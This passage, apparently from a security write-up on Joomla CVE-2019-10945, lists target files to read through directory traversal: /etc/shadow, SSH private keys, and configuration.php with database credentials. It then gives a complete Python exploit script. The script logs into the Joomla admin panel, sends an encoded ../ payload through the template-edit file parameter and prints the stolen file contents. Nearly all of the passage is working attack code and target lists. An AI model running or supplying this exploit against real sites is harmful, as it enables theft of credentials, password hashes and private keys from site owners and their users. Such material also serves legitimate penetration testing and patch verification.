 **File Disclosure Targets:**
```bash
# High-value target files
/etc/passwd                    # System users
/etc/shadow                    # Password hashes (if readable)
/var/www/html/configuration.php # Database credentials
/var/www/html/.htaccess        # Web server configuration
/home/user/.ssh/id_rsa         # SSH private keys
/var/log/apache2/access.log    # Web server logs
```

#### Automated Exploitation Script

```python
#!/usr/bin/env python3
# joomla_cve_2019_10945.py

import requests
import sys
import urllib.parse

def exploit_directory_traversal(url, username, password, target_file):
    session = requests.Session()
    
    # Login to admin panel
    login_data = {
        'username': username,
        'passwd': password,
        'task': 'login'
    }
    
    login_response = session.post(f"{url}/administrator/index.php", data=login_data)
    
    if "Dashboard" not in login_response.text:
        print("[!] Login failed")
        return False
    
    print("[+] Login successful")
    
    # Attempt directory traversal
    traversal_payload = f"../../../{target_file}"
    encoded_payload = urllib.parse.quote(traversal_payload, safe='')
    
    exploit_url = f"{url}/administrator/index.php?option=com_templates&task=template.edit&id=506&file={encoded_payload}"
    
    response = session.get(exploit_url)
    
    if response.status_code == 200:
        print(f"[+] Successfully accessed: {target_file}")
        print(f"[+] Content preview:")
        print(response.text[:500])
        return True
    else:
        print(f"[!] Failed to access: {target_file}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 5:
        print("Usage: python3 joomla_cve_2019_10945.py <url> <username> <password> <target_file>")
        sys.exit(1)
    
    url, username, password, target_file = sys.argv[1:5]
    exploit_directory_traversal(url, username, password, target_file)
```
